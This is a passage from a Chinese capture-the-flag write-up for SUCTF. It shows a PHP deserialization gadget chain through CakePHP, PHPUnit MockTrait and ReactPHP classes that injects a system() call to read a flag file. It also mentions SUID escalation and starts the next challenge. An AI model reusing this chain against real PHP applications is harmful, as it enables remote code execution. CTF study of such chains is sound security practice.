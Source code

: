 ```php
    }
}

namespace Cake\ORM;
use PHPUnit\Framework\MockObject\Generator\MockTrait;
class Table {
    protected BehaviorRegistry $_behaviors;
    public function __construct() {
        $this->_behaviors = new BehaviorRegistry();
    }
}
class ObjectRegistry {}
class BehaviorRegistry extends ObjectRegistry {
    protected array $_methodMap;
    protected array $_loaded;
    public function __construct() {
        $this->_methodMap = ["rewind"=>array("mz","generate")];
        $this->_loaded = ["mz"=>new MockTrait()];
    }
}

namespace PHPUnit\Framework\MockObject\Generator;
class MockTrait {
    private string $classCode;
    private string $mockName;
    public function __construct() {
        $this->mockName = "mz";
        // $this->classCode = "phpinfo();";
        // $cmd = "ls /";
        $cmd = "find / -name flag.txt -exec cat /flag.txt \;";
        $this->classCode = 'system("'.$cmd.'");';
    }
}

namespace React\Promise\Internal;
echo base64_encode(serialize(new RejectedPromise()));

?>
```

同样的， suid 提权，读 flag

![image-20250125230928194](https://mingzu.oss-cn-hongkong.aliyuncs.com/2025/01/25/6794fea8c91e0.png)

> SUCTF{PoP_CHaiN5_@Re_SO_fUn!!!}

### SU_blog

#### 0x00 信息收集

注册一个 admin 用户（竟然让注册）
